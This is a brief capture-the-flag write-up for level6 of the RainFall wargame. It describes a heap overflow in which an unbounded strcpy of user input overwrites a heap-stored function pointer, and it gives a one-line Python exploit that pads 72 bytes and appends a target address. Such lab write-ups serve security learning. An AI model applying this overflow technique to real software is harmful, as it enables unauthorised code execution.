 # level6

Heap-buffer overflow. strcpy with user argument with no bound checking. Function pointer allocated on the heap.

```
level6@RainFall:~$ ./level6 $(python -c 'print("a"*72 + "\x54\x84\x04\x08")')
```